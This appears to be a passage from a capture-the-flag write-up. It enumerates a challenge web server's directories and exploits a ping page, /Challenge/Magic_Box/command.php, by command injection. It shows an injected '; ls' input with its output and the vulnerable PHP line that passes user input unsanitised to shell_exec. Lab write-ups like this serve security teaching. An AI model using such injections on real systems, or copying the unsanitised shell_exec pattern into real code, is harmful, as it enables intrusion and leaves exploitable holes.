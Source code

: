 ```text
/css/style.css
/icons/
/icons/small/
/images/
/index.html
/server-status/
```

There's a lot of hints hidden in the different pages, the most notable one is another directory given in the page `/Challenge/cake.php`:

```text
line 10:    <title>/Magic_Box</title>
```

Let's start another round of `dirbuster` on `/Challenge/Magic_Box`. We get very interesting results:

```text
/Challenge/Magic_Box/
/Challenge/Magic_Box/command.php
/Challenge/Magic_Box/low.php
/Challenge/Magic_Box/proc/
/Challenge/Magic_Box/proc/validate.php
/Challenge/Magic_Box/tails.php
```

The page `/Challenge/Magic_Box/command.php` allows us to ping a IP address. The file named `tails.php` reminds us the typo *tales/tails* from the first webpage. 

## Command injection

The page `/Challenge/Magic_Box/command.php` allows us to ping a IP address. There is a vulnerability here as we can inject command by using the `;` character.

```text
Input:
; ls

Output:
command.php
command.php.save
command2.php.save
command2.php.save.1
low.php
proc
tails.php
```
*Note: the output is displayed on the page, we don't have any shell yet.*

That's pretty cool! We can access to what might be the source code of that page with the file `command.php.save`. The vulnerability we just exploited can be found that way:

```text
$cmd = shell_exec( 'ping  -c 3 ' . $target );

Input:
; ls
Commands executed:
ping  -c 3 ; ls
```
